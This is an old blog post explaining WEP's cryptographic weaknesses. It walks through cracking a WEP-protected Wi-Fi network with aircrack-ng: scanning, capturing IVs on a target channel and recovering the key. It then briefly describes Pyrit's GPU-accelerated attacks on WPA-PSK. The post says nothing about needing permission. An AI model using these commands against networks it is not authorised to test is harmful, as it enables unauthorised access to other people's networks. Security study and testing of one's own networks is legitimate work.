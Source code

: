 ```yaml
---
comments: true
date: "2010-04-03T17:29:24Z"
slug: hack-wireless-network
tags:
- Aircrack-ng
- Debian
- Network Security
- Ubuntu
- WEP
- Wi-Fi
- WPA
categories:
- Linux
- Network Security
title: How to Hack a Wireless Network
wordpress_id: 22
---
```


[WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) was intended to provide comparable confidentiality to a traditional wired network (in particular it does not protect users of the network from each other, but from outsiders), hence the name WEP.

Despite the intention, several serious weaknesses were identified by [cryptanalysts](http://en.wikipedia.org/wiki/Cryptanalysis) over the last years. The severity of the weaknesses means that any WEP protected network can be cracked using the right software within two minutes or less.

WEP was superseded by [Wi-Fi Protected Access](http://en.wikipedia.org/wiki/Wi-Fi_Protected_Access) (also known as WPA) in 2003, and then by the full [IEEE 802.11i](http://en.wikipedia.org/wiki/IEEE_802.11i-2004) standard (also known as WPA2) in 2004. Despite the weaknesses, WEP provides a level of security that can deter casual snooping.

**Hack Versus Crack**

For your information - just to get the right jargon.

The Eric S. Raymonds [Jargon File](http://www.catb.org/jargon) contains a bunch of definitions of the term "[hacker](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29)", most having to do with technical adeptness and a delight in solving problems and overcoming limits. The basic difference between a hacker and a cracker is this: hackers build things, crackers break them.

**Howto Conduct The Actual Crack**

It's fairly easy to [crack](http://en.wikipedia.org/wiki/Password_cracking) a [WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) encrypted [wireless network](http://en.wikipedia.org/wiki/Wi-Fi), because the [WEP encryption](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) has some serious flaws in its design, flaws that makes it easy and fast to [crack](http://en.wikipedia.org/wiki/Password_cracking) or hack.

Install [aircrack-ng](http://www.aircrack-ng.org/) - on Debian or Ubuntu by:


    sudo aptitude install aircrack-ng


Then start aircrack-ng to look for wireless networks:


    sudo airodump-ng eth1

Then notice the channel number of the wireless network you want to crack.

    CH  1 ][ Elapsed: 9 mins ][ 2012-08-19 18:35

    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

    70:71:BC:A6:FF:FF  -68      285      191    0   4  54e  WEP  WEP         wifi-0
    00:17:9A:F1:FF:FF  -77      599      104    0   6  54 . WEP  WEP         wifi-1
    4C:E6:76:C4:FF:FF  -38      926       60    0   2  54e  WPA2 CCMP   PSK  wifi-2
    C4:3D:C7:34:FF:FF  -62      476      397    0   8  54e  WPA  TKIP   PSK  wifi-3


Quit aircrack-ng and start it again with med specific channel number to collect packages faster:


    sudo airodump-ng -c 4 -w dump eth1


Then wait and let it collect about 500K IVS and the try the do the actual crack:


    sudo aircrack-ng -b 0a:0b:0c:0d:0e:0f dump-01.cap


The MAC after the -b option is the BSSID of the target and dump-01.cap the file containing the captured packets.

**Only WEP Encrypted Networks**

Keep in mind that this approach is only usable in relation to WEP encrypted wireless networks, and cannot be used to crack WPA and WPA2 encrypted networks.

However, there is a new project called [Pyrit](http://code.google.com/p/pyrit/),which is currently under it's way. Pyrit takes a step ahead in attacking WPA-PSK and WPA2-PSK, the protocol that today de-facto protects public [WIFI](http://en.wikipedia.org/wiki/Wi-Fi)-airspace. The project's goal is to estimate the real-world security provided by these protocols. Pyrit does not provide [binary](http://en.wikipedia.org/wiki/Binary_file) files or wordlists and does not encourage anyone to participate or engage in any harmful activity. This is a research project, not a cracking tool - keep that in mind ;-)

Pyrit's implementation allows to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time-tradeoff. The performance gain for real-world-attacks is in the range of three orders of magnitude which urges for re-consideration of the protocol's security. Exploiting the computational power of [GPUs](http://en.wikipedia.org/wiki/Graphics_processing_unit), this is currently by far the most powerful attack against one of the world's most used security-protocols.
